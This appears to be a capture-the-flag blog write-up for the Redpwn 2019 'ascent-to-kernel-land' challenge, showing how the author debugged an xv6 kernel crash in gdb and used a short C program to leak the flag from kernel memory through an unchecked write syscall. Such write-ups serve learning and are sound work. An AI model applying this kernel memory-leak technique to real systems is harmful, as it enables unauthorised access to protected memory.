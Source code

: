 ```yaml
---
layout: post
title:  "Redpwn CTF ascent-to-kernel-land Writeup"
img: redpwn-ascent.png
tags: [Redpwn, Writeup, CTF]
---
```


It's my first kernel exploit challenge writeup. Thank you Redpwn CTF!

## Description

We have [a tgz file](https://github.com/JackGrence/ctf-write-ups/raw/master/2019/RedpwnCTF/ascent-to-kernel-land/ascent-to-kernel-land.tar.gz), it is a tiny os. Follow the Makefile:

```make
qemu: fs.img xv6.img
        $(QEMU) -serial mon:stdio $(QEMUOPTS)

qemu-memfs: xv6memfs.img
        $(QEMU) -drive file=xv6memfs.img,index=0,media=disk,format=raw -smp $(CPUS) -m 256

qemu-nox: fs.img xv6.img
        $(QEMU) -nographic $(QEMUOPTS)

.gdbinit: .gdbinit.tmpl
        sed "s/localhost:1234/localhost:$(GDBPORT)/" < $^ > $@

qemu-gdb: fs.img xv6.img .gdbinit
        @echo "*** Now run 'gdb'." 1>&2
        $(QEMU) -serial mon:stdio $(QEMUOPTS) -S $(QEMUGDB)

qemu-nox-gdb: fs.img xv6.img .gdbinit
        @echo "*** Now run 'gdb'." 1>&2
        $(QEMU) -nographic $(QEMUOPTS) -S $(QEMUGDB)

```

These qemu target can run or debug this os in qemu. Start qemu and attach by gdb:

```bash
$ make qemu-nox-gdb
*** Now run 'gdb'.
qemu-system-i386 -nographic -snapshot -drive file=fs.img,index=1,me...

gdb-peda$ target remote localhost:26000
```

According to README, the flag in kernel memory. We can find `flag` defined in source code(main.c:9):

```c
#include "proc.h"
#include "x86.h"

char flag[70] = "REDACTED FROM SOURCE";

static void startothers(void);
static void mpmain(void) __attribute__((noreturn));
```

## How to get the flag?

But, how can we access the kernel memory? Have any vulnerabilities in system call? After a while, I found the program named `usertests`. It will crash the system!(usertests.c:1717):

```c
void argptest()
{
        int fd;
        fd = open("init", O_RDONLY);
        if (fd < 0) {
                printf(2, "open failed\n");
                exit();
        }
        read(fd, sbrk(0) - 1, -1); // Crash!
        close(fd);
        printf(1, "arg test passed\n");
}
```

The crash message:

```
$ ./usertests
usertests starting
unexpected trap 14 from cpu 1 eip 80104594 (cr2=0xd000)
lapicid 1: panic: trap
 801059ac 8010566f 80101a4c 80100fcc 80104b82 80104899 80105855 8010566f 0 0
```

Search `panic: ` in source code, we can find the crash message printed in consol.c:

```c
void panic(char *s)
{
        int i;
        uint pcs[10];

        cli();
        cons.locking = 0;
        // use lapiccpunum so that we can call panic from mycpu()
        cprintf("lapicid %d: panic: ", lapicid());
        cprintf(s);
        cprintf("\n");
        getcallerpcs(&s, pcs);
        for (i = 0; i < 10; i++)
                cprintf(" %p", pcs[i]);
        panicked = 1; // freeze other CPU
        for (;;)
                ;
}
```

Just `break panic` in gdb and see what's going on!

```
gdb-peda$ bt
#0  0x80100390 in panic ()
#1  0x801059ac in trap ()
#2  0x8010566f in alltraps () at trapasm.S:20
#3  0x8df23e6c in ?? ()
#4  0x80101a4c in readi ()
#5  0x80100fcc in fileread ()
#6  0x80104b82 in sys_read ()
#7  0x80104899 in syscall ()
#8  0x80105855 in trap ()
#9  0x8010566f in alltraps () at trapasm.S:20
#10 0x8df23fb4 in ?? ()
```

It's obvious that the read function failed because the 0xcfff is the end of the process address, we can't write more than one byte to it. (frame #4):

```
[-------------------------------------code-------------------------------------]
   0x80101a42 <readi+162>:      push   DWORD PTR [ebp-0x20]
   0x80101a45 <readi+165>:      add    esi,ebx
   0x80101a47 <readi+167>:      call   0x80104550 <memmove>
=> 0x80101a4c <readi+172>:      mov    edx,DWORD PTR [ebp-0x24]
   0x80101a4f <readi+175>:      mov    DWORD PTR [esp],edx
   0x80101a52 <readi+178>:      call   0x801001e0 <brelse>
   0x80101a57 <readi+183>:      add    DWORD PTR [ebp-0x20],ebx
   0x80101a5a <readi+186>:      add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0x8df23ec0 (0x0000cfff)
0004| 0x8df23ec4 --> 0x8010c990 --> 0x464c457f
0008| 0x8df23ec8 --> 0x200 --> 0x5d4835 ('5H]')
0012| 0x8df23ecc --> 0x80101a0f --> 0x5008ec83
```

## The magic!

This crash give me a hint! Can I access the kernel memory directly? Yes! I can!

```c
int main(int argc, char *argv[])
{
  write(1, 0x8010a000, 0x100);
}
```

In local, we can modify the Makefile, put the exploit program in.

```
$ ./hello
REDACTED FROM SOURCE5[>[G[P[Y[b[k[t[}[[[[[[[[[[\\\#\,\5\>\G\P\Y\b\k\t\}...
```

It works! But how can we do in remote?

* The command length is limited.
* The "\>\>" redirector can't append the content to the file.
* No any wget or nc in this os.

Finally, `(cat file; echo -n \x00) > file` works for me!

Flag: `flag{k3rn3l_sp4ce_is_n0t_a_h1d1ng_pl4ce_08731048730417319374198732498}`

[Final exploit](https://github.com/JackGrence/ctf-write-ups/blob/master/2019/RedpwnCTF/ascent-to-kernel-land/exp.py)
